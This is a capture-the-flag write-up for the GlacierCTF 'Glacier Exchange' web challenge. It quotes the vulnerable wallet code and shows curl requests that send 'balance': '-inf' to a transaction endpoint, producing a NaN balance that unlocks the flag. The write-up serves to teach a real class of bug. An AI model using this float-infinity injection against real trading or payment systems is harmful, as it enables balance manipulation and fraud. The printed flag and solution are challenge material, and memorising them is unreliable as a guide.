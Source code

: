 # Glacier Exchange [241 Solves]

## Description

> We have launched a new revolutionary exchange tool, allowing you to trade on the market and hanging out with your rich friends in the Glacier Club. Only Billionaires can get in though. Can you help me hang out with lEon sMuk?
>
> authors: hweissi & xsskevin
>
> <https://glacierexchange.web.glacierctf.com>
>
> Attachments: glacier_exchange.zip

<details><summary>Attachment file tree</summary>

```console
$ unzip -t glacier_exchange.zip
Archive:  glacier_exchange.zip
    testing: chall/                   OK
    testing: chall/assets/            OK
    testing: chall/assets/styles/     OK
    testing: chall/assets/styles/main.css   OK
    testing: chall/assets/images/     OK
    testing: chall/assets/images/bg.jpg   OK
    testing: chall/assets/images/convert-button.jpg   OK
    testing: chall/assets/icons/      OK
    testing: chall/assets/icons/smtl.png   OK
    testing: chall/assets/icons/glaciercoin.png   OK
    testing: chall/assets/icons/cashout.png   OK
    testing: chall/assets/icons/gamestock.png   OK
    testing: chall/assets/icons/favicon.ico   OK
    testing: chall/assets/icons/doge.png   OK
    testing: chall/assets/icons/ycmi.png   OK
    testing: chall/assets/icons/ascoin.png   OK
    testing: chall/assets/scripts/    OK
    testing: chall/assets/scripts/chart.component.js   OK
    testing: chall/assets/scripts/index.js   OK
    testing: chall/templates/         OK
    testing: chall/templates/index.html   OK
    testing: chall/src/               OK
    testing: chall/src/wallet.py      OK
    testing: chall/src/coin_api.py    OK
    testing: chall/requirements.txt   OK
    testing: chall/server.py          OK
No errors detected in compressed data of glacier_exchange.zip.
```

</details>

## Flag

gctf{PyTh0N_CaN_hAv3_Fl0At_0v3rFl0ws_2}

## Solution

The vulnerable API endpoint is [POST] /api/wallet/transaction.

```python
# chall/server.py

# (snip)

@app.route('/api/wallet/transaction', methods=['POST'])
def transaction():
    payload = request.json
    status = 0
    if "sourceCoin" in payload and "targetCoin" in payload and "balance" in payload:
        wallet = get_wallet_from_session()
        status = wallet.transaction(payload["sourceCoin"], payload["targetCoin"], float(payload["balance"]))  # [1]
    return jsonify({
        "result": status
    })

# (snip)
```

```python
# chall/src/wallet.py
import threading


class Wallet():
    def __init__(self) -> None:
        self.balances = {
            "cashout": 1000,  # [2]
            "glaciercoin": 0,
            "ascoin": 0,
            "doge": 0,
            "gamestock": 0,
            "ycmi": 0,
            "smtl": 0
        }
        self.lock = threading.Lock();


    def getBalances(self):
        return self.balances
    
    def transaction(self, source, dest, amount):
        if source in self.balances and dest in self.balances:
            with self.lock:
                if self.balances[source] >= amount:  # [3]
                    self.balances[source] -= amount
                    self.balances[dest] += amount
                    return 1
        return 0
    
    def inGlacierClub(self):
        with self.lock:
            for balance_name in self.balances:
                if balance_name == "cashout":
                    if self.balances[balance_name] < 1000000000:
                        return False
                else:
                    if self.balances[balance_name] != 0.0:
                        return False
            return True
```

- The `float()` function is used for the `balance` parameter [1].
  This implies the ability to create objects such as `float('inf')`, `float('-inf')` or `float('nan')`.

- `sourceCoin` and `targetCoin` can be set to the same value.

- The initial value for `cashout` is 1000 [2].
  If `-inf` is input for `balance`, the `transaction()` method is executed, and calculate for `amount` [3].
  Testing in Python Console due to confirm the operation of `transaction()` method:

  ```python
  >>> balance = 1000
  >>> balance >= float('-inf')
  True
  >>> balance -= float('-inf'); print(balance)
  inf
  >>> balance += float('-inf'); print(balance)
  nan
  >>> balance < 1000000000  # confirmation for inGlacierClub() 
  False
  ```

Thus, `inGlacierClub()` returns True.

```console
$ curl -D- --cookie-jar cookies.txt https://glacierexchange.web.glacierctf.com/api/wallet/transaction -H 'Content-Type: application/json' -d '{"sourceCoin":"cashout", "targetCoin":"cashout", "balance": "-inf"}'
HTTP/2 200
date: Mon, 27 Nov 2023 04:15:59 GMT
content-type: application/json
content-length: 13
vary: Cookie
set-cookie: session=eyJpZCI6InpqNmw3ZjAwdGZxQmFZX096bngyTlEifQ.ZWQX_w.h-yqkMhwCzlxdQ576ApoNAQo3qQ; HttpOnly; Path=/
strict-transport-security: max-age=15724800; includeSubDomains

{"result":1}

$ curl -D- --cookie cookies.txt https://glacierexchange.web.glacierctf.com/api/wallet/balances
HTTP/2 200
date: Mon, 27 Nov 2023 04:16:15 GMT
content-type: application/json
content-length: 203
vary: Cookie
strict-transport-security: max-age=15724800; includeSubDomains

[{"name":"cashout","value":NaN},{"name":"glaciercoin","value":0},{"name":"ascoin","value":0},{"name":"doge","value":0},{"name":"gamestock","value":0},{"name":"ycmi","value":0},{"name":"smtl","value":0}]

$ curl -D- --cookie cookies.txt https://glacierexchange.web.glacierctf.com/api/wallet/join_glacier_club -X POST
HTTP/2 200
date: Mon, 27 Nov 2023 04:16:35 GMT
content-type: application/json
content-length: 70
vary: Cookie
strict-transport-security: max-age=15724800; includeSubDomains

{"clubToken":"gctf{PyTh0N_CaN_hAv3_Fl0At_0v3rFl0ws_2}","inClub":true}
```
